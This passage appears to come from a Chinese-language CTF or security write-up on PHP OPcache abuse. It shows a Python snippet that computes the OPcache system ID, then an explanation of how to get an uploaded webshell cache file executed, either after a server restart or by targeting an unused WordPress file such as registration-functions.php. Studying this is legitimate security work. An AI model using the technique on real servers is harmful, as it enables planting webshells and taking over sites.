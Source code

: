 ```python
architecture = architecture.group(1).split()[-1]

# Zend Bin ID suffix
if architecture == "x86_64":
    bin_id_suffix = "48888"
else:
    bin_id_suffix = "44444"

# With PHP 7.4 they fixed the undefined macro that did the weird bin ID
if php_greater_74:
    zend_bin_id = "BIN_" + bin_id_suffix
else:
    zend_bin_id = "BIN_SIZEOF_CHAR" + bin_id_suffix

# Alternate Bin ID, see #5
if not php_greater_74:
    if architecture == "x86_64":
        alt_bin_id_suffix = "148888"
    else:
        alt_bin_id_suffix = "144444"

    alt_zend_bin_id = "BIN_" + alt_bin_id_suffix


# Logging
print("PHP version : " + php_version)
print("Zend Extension ID : " + zend_extension_id)
print("Zend Bin ID : " + zend_bin_id)
print("Assuming " + architecture + " architecture")

digest = md5(php_version + zend_extension_id + zend_bin_id)
print("------------")
print("System ID : " + digest)

if not php_greater_74:
    alt_digest = md5(php_version + zend_extension_id + alt_zend_bin_id)
    print("PHP lower than 7.4 detected, an alternate Bin ID is possible:")
    print("Alternate Zend Bin ID : " + alt_zend_bin_id)
    print("Alternate System ID : " + alt_digest)
```

但是从phpinfo中发现

```
opcache.file_cache_only值为0
opcache.validate_timestamps为on。
```

**绕过内存缓存`opcache.file_cache_only=0`：**

```
如果内存缓存方式的优先级高于文件缓存，那么重写后的 OPcache 文件（webshell）是不会被执行的。但是，当 Web 服务器重启后，就可以绕过此限制。因为，当服务器重启之后，内存中的缓存为空，此时，OPcache 会使用文件缓存的数据填充内存缓存的数据，这样，webshell 就可以被执行了。

但是这个方法比较鸡肋，需要服务器重启。那有没有办法不需要服务器重启就能执行 webshell 呢？

后来，我发现在诸如 WordPress 等这类框架里面，有许多过时不用的文件依旧在发布的版本中能够访问。如： registration-functions.php

由于这些文件过时了，所以这些文件在 Web 服务器运行时是不会被加载的，这也就意味着这些文件没有任何文件或内存的缓存内容。这种情况下，通过上传 webshell 的二进制缓存文件为 registration-functions.php.bin ，之后请求访问 /wp-includes/registration-functions.php ，此时 OPcache 就会加载我们所上传的 registration-functions.php.bin 缓存文件。
```
